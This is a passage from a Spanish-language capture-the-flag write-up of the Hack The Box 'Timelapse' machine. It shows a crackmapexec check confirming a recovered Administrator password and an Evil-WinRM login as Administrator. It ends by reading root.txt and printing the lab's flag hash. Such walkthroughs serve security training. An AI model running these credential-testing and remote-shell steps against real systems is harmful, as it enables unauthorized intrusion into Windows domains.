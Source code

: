```bash

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA



*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```

- Vamos a validar si una de las contraseñas es del usuario `Administrator`.

```bash
❯ crackmapexec smb 10.129.141.32 -u 'Administrator' -p '09{z4]5BiSl,e$1d9!+t8GT#'
SMB         10.129.141.32   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.129.141.32   445    DC01             [+] timelapse.htb\Administrator:09{z4]5BiSl,e$1d9!+t8GT# (Pwn3d!)
```

## root.txt 

- Ahora nos conectamos. 

```bash
❯ evil-winrm -S -i 10.129.141.32 -u 'Administrator' -p '09{z4]5BiSl,e$1d9!+t8GT#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\Users
*Evil-WinRM* PS C:\Users> dir -recurse root.txt


    Directory: C:\Users\TRX\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/26/2023   7:01 PM             34 root.txt


*Evil-WinRM* PS C:\Users> type C:\Users\TRX\Desktop\root.txt
ce3a58c7d90fbfcf1a8f22fa31375e8d
*Evil-WinRM* PS C:\Users> 
```
